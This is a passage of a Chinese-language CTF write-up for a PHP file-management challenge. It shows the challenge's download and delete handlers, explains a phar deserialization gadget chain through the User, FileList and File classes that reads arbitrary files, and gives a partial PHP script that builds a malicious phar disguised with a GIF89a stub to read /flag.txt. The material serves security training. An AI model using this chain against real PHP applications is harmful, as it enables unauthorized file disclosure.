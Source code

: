 ```php
$file = new File();
$filename = (string) $_POST['filename'];
if (strlen($filename) < 40 && $file->open($filename) && stristr($filename, "flag") === false) {
    Header("Content-type: application/octet-stream");
    Header("Content-Disposition: attachment; filename=" . basename($filename));
    echo $file->close();
} else {
    echo "File not exist";
}
?>
```
delete.php
```php
<?php
session_start();
if (!isset($_SESSION['login'])) {
    header("Location: login.php");
    die();
}

if (!isset($_POST['filename'])) {
    die();
}

include "class.php";

chdir($_SESSION['sandbox']);
$file = new File();
$filename = (string) $_POST['filename'];
if (strlen($filename) < 40 && $file->open($filename)) {
    $file->detele();
    Header("Content-type: application/json");
    $response = array("success" => true, "error" => "");
    echo json_encode($response);
} else {
    Header("Content-type: application/json");
    $response = array("success" => false, "error" => "File not exist");
    echo json_encode($response);
}
?>
```
先找找有没有什么敏感函数，File类中open方法有file_exists可以触发phar的反序列化，close方法有file_get_contents可以读内容。所有就根据这两处找找利用链。最开始想到就是User类中的析构函数调用了db属性的close方法，可以把db赋值为一个File类，调用同名函数。
但是这有个问题，读完了文件并没有回显的地方，所以这其实是个坑。再看看发现回显是在FileList中call方法给list赋值，然后destruct中打印。
运行这个生成phar文件
```php
<?php
    class User {
        public $db;
    }
    class FileList {
        private $files;
        public function __construct(){
            $this->files=array(new File());
        }
    } 
    class File{
        public $filename = "/flag.txt";
    }
    $o = new User();
    $o->db =new FileList();
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub
```